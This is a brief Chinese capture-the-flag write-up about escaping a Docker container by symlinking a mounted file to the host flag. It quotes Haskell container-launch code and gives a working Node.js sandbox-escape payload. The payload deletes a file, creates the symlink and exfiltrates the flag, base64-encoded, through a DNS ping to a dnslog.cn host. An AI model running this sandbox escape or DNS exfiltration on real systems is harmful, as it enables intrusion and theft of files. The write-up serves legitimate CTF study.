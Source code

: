 根据 hint，需要 docker 逃逸，多个 CVE 尝试无果，翻文章找到一篇 docker 逃逸读取文件的文章

[Tunnel Manager - From RCE to Docker Escape (seebug.org)](https://paper.seebug.org/396/)

根据文章描述，就是找到一个可以控制的文件，之后创建一个软链接到容器外部的 flag

```bash
tunnelCreate :: String -> String -> String -> String -> Maybe String -> IO (Either String TunnelInfo)
tunnelCreate ""   _      _    _    _ = return $ Left "Name must not be empty"
tunnelCreate _    ""     _    _    _ = return $ Left "Server must not be empty"
tunnelCreate name server user pass port = do
    let n = escape name
    let portDef = case port of
            Just p  -> "-p "++p++":3128"
            Nothing -> "-p 3128"

    r <- shExJoin ["docker run -d --restart=always"
                  ,"--device /dev/ppp"
                  ,"--cap-add=net_admin"
                  ,"--name",n,"-h",n
                  ,"-v "++flags_dataDir++":/data", portDef, flags_image
                  ,"/init.sh ", escapeMany [server,user,pass]
                  ]
    case r of
        Left err -> return $ Left err
        Right _  -> tunnelInfo name
```

(这里原理其实就是文章中源码对于可控目录进行了 docker -v 挂载)

这里猜测符合上述情况，而且可控目录为 app 目录，因为前端存在一个输出与错误，软连接指向 error.txt，按照文章 payload 打，得到 flag

```bash
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('ping $(echo $(rm /app/error.txt  && ln -s /flag /app/error.txt && cat /app/error.txt)|base64 -w0)uth1r9.dnslog.cn'); }
            )
        }
    }
};
p.then();
```
